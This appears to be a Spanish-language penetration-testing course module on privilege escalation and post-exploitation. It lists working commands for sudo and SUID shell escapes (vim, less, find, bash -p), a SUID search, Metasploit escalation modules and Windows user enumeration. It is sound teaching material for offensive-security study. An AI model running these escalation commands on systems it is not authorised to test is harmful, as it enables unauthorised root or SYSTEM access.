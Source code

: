 
# 🧗‍♂️ Escalada de Privilegios + Post Explotación

Tras obtener acceso inicial a un sistema, el siguiente paso es escalar privilegios y recolectar información sensible del entorno. En este módulo aprenderás cómo hacerlo tanto en Linux como en Windows.

---

## 🔼 Escalada de Privilegios en Linux – Sudo -l (Parte 1)

El comando `sudo -l` permite ver qué comandos puede ejecutar el usuario actual como root.

```bash
sudo -l
```

Si puedes ejecutar algún comando sin contraseña, ¡es un vector claro para escalar privilegios!

---

## 🔼 Escalada de Privilegios en Linux – Sudo -l (Parte 2)

### Ejemplo: acceso a `vim`
```bash
sudo vim -c '!sh'
```

### Ejemplo: acceso a `less`
```bash
sudo less /etc/passwd
!sh
```

Consulta [GTFOBins](https://gtfobins.github.io/) para encontrar bypass por cada binario.

---

## 🔧 Escalada de Privilegios en Linux – Binarios SUID (Parte 1)

Un archivo con el bit SUID permite que cualquier usuario lo ejecute con los privilegios del propietario.

```bash
find / -perm -4000 -type f 2>/dev/null
```

Busca binarios como:
- `/usr/bin/passwd`
- `/bin/bash`
- `/usr/bin/find`

---

## 🔧 Escalada de Privilegios en Linux – Binarios SUID (Parte 2)

Ejemplo con `find`:

```bash
./find . -exec /bin/sh \; -quit
```

Ejemplo con `bash`:

```bash
./bash -p
```

> ⚠️ Usa `GTFOBins` para ver técnicas para cada binario SUID encontrado.

---

## 🤖 Escalada de Privilegios Automática con Metasploit (Linux & Windows)

### Linux:
```bash
msfconsole
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
```

### Windows:
```bash
use post/windows/gather/enum_logged_on_users
use post/windows/escalate/getsystem
```

> También puedes usar `linpeas.sh`, `linux-exploit-suggester.sh`, `WinPEAS.exe`, etc.

---

## 👤 Enumeración de Usuarios en Sistemas Windows

Tras obtener una shell:

```powershell
net users
query user
whoami /groups
systeminfo
```

También puedes listar privilegios o detectar si estás en un dominio.

---

📌 Recomendaciones:

- Usa scripts como `LinPEAS` y `WinPEAS` para automatizar la recolección.
- Identifica qué software, servicios y configuraciones están desactualizadas o mal configuradas.
- Apunta todo: nombre del sistema, usuarios, rutas, permisos.

---

📚 Recursos:

- https://gtfobins.github.io/
- https://book.hacktricks.xyz/windows-hardening
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

---

💡 “El acceso inicial es solo la puerta. El objetivo real está más arriba.”
